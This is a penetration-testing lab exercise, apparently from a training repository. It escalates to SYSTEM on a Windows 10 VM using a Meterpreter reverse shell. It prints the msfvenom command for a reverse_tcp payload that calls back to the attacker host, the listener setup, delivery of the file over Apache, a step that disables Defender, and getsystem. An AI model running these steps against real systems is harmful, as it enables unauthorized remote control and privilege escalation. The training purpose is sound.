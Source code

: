 # Meterpreter

## Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

#### Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

#### Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

#### Solutions 
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: <br/>
![image](https://github.com/user-attachments/assets/de9c5d0a-4329-42f4-854e-14e068959e7e)




